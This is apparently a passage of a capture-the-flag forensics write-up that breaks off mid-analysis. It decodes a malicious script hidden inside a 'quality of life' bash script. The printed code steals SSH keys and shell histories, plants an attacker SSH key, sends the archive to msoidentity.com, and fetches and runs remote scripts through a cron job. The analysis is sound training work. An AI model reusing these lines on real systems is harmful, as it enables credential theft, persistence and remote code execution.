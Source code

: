 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw base64 string in to the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now were seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request. After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and ran from "msoidentity.com/info".

Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```

Here's the next steps in the attack, first a couple variables are declared to be used later in the script, including a new URL to explore "msoidentity.com/backup_info".
